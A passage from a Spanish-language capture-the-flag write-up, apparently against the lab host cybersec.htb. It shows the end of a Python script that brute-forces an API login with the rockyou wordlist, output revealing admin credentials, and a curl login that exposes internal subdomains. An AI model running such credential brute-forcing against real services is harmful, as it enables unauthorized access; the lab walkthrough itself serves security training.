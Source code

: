 ```python
            else:
                print(f'[-] Fallido: Usuario: {username}, Contraseña: {password}')

    print('[-] No se encontraron credenciales válidas.')

# Especificar las rutas de las wordlists
usernames_file = 'users.txt'
passwords_file = '/usr/share/wordlists/rockyou.txt'

# Leer las wordlists
usernames = leer_wordlist(usernames_file)
passwords = leer_wordlist(passwords_file)

# Ejecutar el ataque de fuerza bruta
brute_force_attack(usernames, passwords)
```

ejecutamos el script

```bash
python3 brute-force-api.py
```

```bash
.
.
.
.
[-] Fallido: Usuario: admin, Contraseña: daddy
[-] Fallido: Usuario: admin, Contraseña: catdog
[-] Fallido: Usuario: admin, Contraseña: armando
[-] Fallido: Usuario: admin, Contraseña: margarita
[-] Fallido: Usuario: admin, Contraseña: 151515
[-] Fallido: Usuario: admin, Contraseña: loves
[-] Fallido: Usuario: admin, Contraseña: lolita
[-] Fallido: Usuario: admin, Contraseña: 202020
[-] Fallido: Usuario: admin, Contraseña: gerard
[+] ¡Credenciales encontradas! Usuario: admin, Contraseña: undertaker
```
ya con las credenciales conseguidas puedo autenticarme contra la `api` usando nuevamente `curl`

```bash
curl -X POST http://cybersec.htb/api/login -H "Content-Type: application/json" -d '{"username": "admin", "password": "undertaker"}'
```
```bash
{
  "company": {
    "URLs_web": "cybersec.htb, bin.cybersec.htb, mail.cybersec.htb, dev.cybersec.htb, cybersec.htb/downloads, internal-api.cybersec.htb, 0internal_down.cybersec.htb, internal.cybersec.htb, cybersec.htb/documents, cybersec.htb/api/cpu, cybersec.htb/api/login",
    "address": "New York, EEUU",
    "branches": "Brazil, Curacao, Lithuania, Luxembourg, Japan, Finland",
    "customers": "ADIDAS, COCACOLA, PEPSICO, Teltonika, Toray Industries, Weg, CURALINk",
    "name": "CyberSec Corp",
    "phone": "+1322302450134200",
    "services": "Auditorias de seguridad, Pentesting, Consultoria en ciberseguridad"
  },
  "message": "Login successful"
}
```
por lo visto devuelve informacion de la empresa, como su direccion, clientes, sucursales, los servicios que prestan pero lo mas importante para nosotros son las url's 
vinculadas a la empresa, asi que nos centramos en ellas para ir testeando, agragamos los subdominios al archivos `/etc/hosts` y tras probar los subdominios solo estan
activos 2 de ellos...
